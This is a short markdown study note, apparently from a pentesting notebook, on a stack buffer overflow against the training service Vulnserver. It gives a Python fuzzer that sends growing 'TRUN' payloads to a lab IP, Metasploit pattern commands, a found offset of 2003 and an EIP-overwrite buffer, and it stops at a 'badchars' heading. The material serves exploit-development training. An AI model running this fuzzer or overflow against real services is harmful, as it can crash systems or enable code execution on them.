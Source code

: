 # Buf Overflow

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%284%29.png)



### FUZZING

```text
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337   
where q is EIP value -&gt; we will get offset  
OFFSET = 2003  
buffer = "A" \* 2003 + "B" \* 4  
EIP will be overwritten with 424242.  
  
badchars







